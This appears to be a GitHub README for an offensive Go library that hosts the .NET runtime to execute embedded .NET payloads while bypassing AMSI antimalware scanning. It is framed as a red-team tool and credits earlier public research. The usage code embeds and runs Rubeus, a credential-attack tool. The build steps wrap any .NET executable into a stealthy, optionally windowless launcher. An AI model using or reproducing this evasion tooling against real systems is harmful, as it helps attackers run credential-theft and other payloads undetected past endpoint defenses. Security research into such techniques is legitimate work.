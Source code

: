 # go-invoker-clr


The purpose of this project is to provide a Go implementation for hosting and executing .NET assemblies with advanced stealth and evasion capabilities. It enables the execution of .NET payloads from Go code, bypassing AMSI (Antimalware Scan Interface) without memory patching, by leveraging a custom IHostControl interface. This makes it useful for red teaming, penetration testing, and research into Windows internals and evasion techniques.

![go-invoker-clr](go-invoker-slr.png)


**GoInvoker-CLR** is a Go-based implementation inspired by the excellent research **[Being a Good CLR Host](https://github.com/passthehashbrowns/Being-A-Good-CLR-Host)** by **Joshua Magri** from **IBM X-Force Red**.

> ⚠️ **Credit where credit is due**:  
> This project builds heavily upon the outstanding work of others in the community.

## Lineage and Acknowledgements

- This project is primarily based on [**go-clr**](https://github.com/Ne0nd0g/go-clr) by **Ne0nd0g**.
- Ne0nd0g's implementation is itself a maintained and improved fork of the original PoC [**go-clr**](https://github.com/ropnop/go-clr) by **ropnop**.
- The conceptual foundation and architectural guidance come directly from the write-up [**Being a Good CLR Host**](https://github.com/passthehashbrowns/Being-A-Good-CLR-Host) by **Joshua Magri**, whose insights were essential to this project.



---

🙏 **Special thanks to**:  
Joshua Magri, Ne0nd0g, and ropnop — for sharing your work and pushing the community forward.



The purpose is to create our own `IHostControl` interface allowing us to implement the `ProvideAssembly` method. We can then use `Load_2` method instead of `Load_3`, circumventing AMSI entirely.




## Usage

Just import the package and use it !

```go
import (
	clr "github.com/hexsecteam/go-invoker-clr"
)

//go:embed Rubeus.exe
var testNet []byte

func main() {
    params := []string{"triage"}

    // Load the Good CLR and get the identity string from the .Net
	pRuntimeHost, identityString, _ := clr.LoadGoodClr("v4.0.30319", testNet)

    // Load the Assembly via its identityString
	assembly := clr.Load2Assembly(pRuntimeHost, identityString)

    // Invoke the Assembly
	pMethodInfo, _ := assembly.GetEntryPoint()
	clr.InvokeAssembly(pMethodInfo, params)
}
```

## Examples - Go Invoker

Go Invoker is a small POC project that showcase go-invoker-clr in action. You can check `examples/GoInvoker/` for a README and the complete code. 

Basically you do:

### Linux:
```bash
cd examples/GoInvoker
go mod tidy
go run helper/helper.go -file=/home/kali/Desktop/Server.exe && GOOS=windows GOARCH=amd64 go build
```
### Windows:
```bash
cd examples/GoInvoker
go mod tidy
go run helper/helper.go -file=C:\...\Server.exe
set GOOS=windows
set GOARCH=amd64
go build                          # build with console output (console app)
go build -ldflags "-H=windowsgui" # build without console window (silent GUI mode)
```

You will get a `goinvoker.exe` that you can use like `Server.exe` whith native AMSI bypass without memory patching:

```powershell
.\goinvoker.exe triage
.\goinvoker.exe -help
```

## Motivation of Go Invoker

Basically we all noticed that a while ago, defender introduced behavioral rules to prevent AMSI memory patching.

Thanks to IBM X-Force Red, we got a patchless AMSI bypass that does not rely on the CPU like for Hardware Break Point !!


## 🤝 Support the HexSec Community
If you find value in our work and would like to support the HexSec community, you can contribute by making a donation. Your support helps us continue developing innovative and high-quality tools for the cybersecurity and IT community.
